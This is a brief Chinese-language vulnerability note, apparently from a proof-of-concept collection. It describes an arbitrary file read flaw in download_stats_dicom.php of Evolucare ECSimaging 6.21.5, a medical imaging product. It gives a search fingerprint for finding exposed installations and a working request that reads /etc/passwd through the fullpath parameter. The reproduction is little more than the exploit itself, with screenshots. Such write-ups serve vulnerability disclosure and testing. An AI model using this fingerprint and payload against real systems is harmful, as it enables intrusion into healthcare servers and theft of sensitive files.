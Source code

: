 # 

# Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](./images/202205241445840.png)

验证POC

```
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![](./images/202205241445607.png)
